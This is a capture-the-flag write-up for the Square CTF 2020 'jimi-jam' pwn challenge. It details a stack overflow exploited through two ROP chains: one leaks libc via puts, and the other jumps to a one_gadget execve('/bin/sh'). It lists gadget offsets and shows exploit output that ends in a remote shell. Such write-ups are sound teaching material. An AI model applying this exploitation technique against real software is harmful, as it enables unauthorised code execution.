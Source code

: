 jimi-jam
========

This challenge was part of Square CTF 2020.

Challenge description:
```
I'm stuck in Jimi Jam jail
:( Can you let me out?
nc challenges.2020.squarectf.com 9000
```

* Points: 150
* Topics: pwn
* Given files: `jimi-jam`, `libc.so.6`

## Approach
Let's first check the mitigations techniques:
```bash
$ checksec jimi-jam
[*] './jimi-jam'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
It's not only a PIE with NX bit enabled, but also fully relro!
However, there are no stack canaries .. Maybe a stack overflow?

Now, connect to the challenge:
```bash
$ nc challenges.2020.squarectf.com 9000
Hey there jimi jammer! Welcome to the jimmi jammiest jammerino!
The tour center is right here! 0x562e82915060
Hey there! You're now in JIMI JAM JAIL

```

Great! Seems like the challenges gives us a leak.
Opening the binary in a decompiler reveals that this is the address of a 0x2000 bytes buffer (`ROPJAIL`) in the `.bss` segment.
Also, that buffer get's initialized with some pseudo random data:
```
int init_jail() {
  int i; // [rsp+Ch] [rbp-4h]

  srand(0x539u);
  for (i = 0; i <= 0x1FFF; i += 4)
    ROPJAIL[i] = rand();
  return mprotect(ROPJAIL, 0x2000uLL, 5);
}
```

However, the binary does not only initialize the buffer and print the leak, but also reads 0x40 bytes from the user into a 8 byte buffer on the stack (function `vuln()`).
Thus, I didn't look at the `ROPJAIL` buffer but instead sent two ropchains.

**First Ropchain:**
The first ropchain leaks the address of `libc`.
One can easily leak the address of `puts` by leaking the entry in the `.plt.sec` section of `jimi-jam` and jump back to `vuln()`.
Thus, the ropchain contains four entries:

1. The address of a `pop rdi` gadget (0x13a3)
2. The address of `puts` in the `.got` segment (can be any entry from the `.got`)
3. The address of `puts` in the `.plt.sec` segment
4. The address of `vuln` such that we can execute another ropchain

With this ropchain we get the address of `libc`.

**Second Ropchain:**
The second ropchain contains a one_gadget and sets the required registers beforehand.
We go for the following one_gadget:
```
0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Thus, we need to set `rsi` and `rdx`.
Fortunately, the `libc` provides rop gadgets for that:
```
0x162866:  pop rdx; pop rbx; ret;
0x027529:  pop rsi; ret;
```

So, we just use these gadgets to set the registers to 0 and then jump to the one_gadget.
This leads to code execution!

## Exploit
You can find the exploit in [`x.py`](./x.py).

Just run it:
```bash
$ ./x.py remote
[*] './jimi-jam'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.2020.squarectf.com on port 9000: Done
[*] Binary @ address 0x555b429d5000
[*] Sending first ropchain (leak libc address)
[*] Libc @ address 0x7fbbbd7e8000
[*] Sending second ropchain (RCE)
[*] Switching to interactive mode
$ cat flag.txt
flag{do_you_like_ropping}
$
```
